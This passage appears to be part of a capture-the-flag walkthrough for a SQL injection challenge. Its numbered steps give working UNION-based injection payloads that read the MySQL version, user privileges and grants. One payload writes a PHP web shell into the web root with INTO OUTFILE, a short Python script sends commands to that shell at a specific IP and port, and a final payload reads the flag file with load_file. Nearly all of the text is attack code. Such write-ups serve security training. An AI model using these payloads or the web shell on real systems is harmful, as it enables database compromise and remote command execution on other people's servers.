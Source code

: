 ```sql
' union select 1,@@version,3,4,5-- -
```

5. Check user permissions

```sql
' union select 1,user,super_priv,4,5 from mysql.user-- -
```

6. Check files permissions

```sql
' union select 1,grantee,privilege_type,4,5 from information_schema.user_privileges-- -
```

7. Create a web shell

```sql
' union select "","<?php system($_REQUEST[0]); ?>","","","" into outfile "/var/www/html/dashboard/webshell.php"-- -
```

8. Execute python script to navigate through web shell

```python
import requests,sys;

command = " ".join(sys.argv[1:])
request = requests.Session()
response = request.get("http://138.68.134.63:32055/dashboard/webshell.php?0=" + command)
print(response.text, end="")
```

10. Load the flag on the page web

```sql
' union select "",load_file("/flag_cae1dadcd174.txt"),"","",""-- -
```
